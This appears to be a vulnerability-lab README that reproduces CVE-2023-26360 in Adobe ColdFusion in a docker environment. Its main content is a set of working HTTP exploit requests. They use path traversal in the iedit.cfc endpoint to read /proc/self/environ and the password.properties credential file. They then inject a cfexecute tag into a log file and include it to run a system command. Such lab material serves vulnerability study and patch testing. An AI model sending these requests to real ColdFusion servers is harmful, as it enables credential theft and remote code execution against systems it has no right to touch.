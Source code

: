 # Adobe ColdFusion Local File Inclusion Leads to RCE (CVE-2023-26360)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

Adobe ColdFusion versions 2018 Update 15 (and earlier) and 2021 Update 5 (and earlier) are affected by an Improper Access Control vulnerability that could result in local file inclusion and arbitrary code execution in the context of the current user.

References:

- <https://xz.aliyun.com/t/13392>

## Vulnerable environment

Start a Adobe ColdFusion 2018.0.15:

```
docker compose up -d
```

After a few minutes wait, visit `http://your-ip:8500/CFIDE/administrator/index.cfm` with password `vulhub`, you can install the Adobe ColdFusion successfully.

## Exploit

Simply send following request to server to download `/proc/self/environ`:

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 82
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../proc/self/environ"}}
```

Then you will find the base directory `/opt/coldfusion/cfusion` of Adobe ColdFusion:

![](1.png)

Retrieve password by `../../../../../../../../opt/coldfusion/cfusion/lib/password.properties`:

![](2.png)

To exploit the arbitrary code execution issue, first send a request to the server containing a CFM script:

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 67
Content-Type: application/x-www-form-urlencoded

_variables=<cfexecute name='id' outputFile='/tmp/success' ></cfexecute>
```

Then, include the log file to execute the CFM script:

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 111
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log"}}
```

The `id` command is executed and output to `/tmp/success`:

![](3.png)
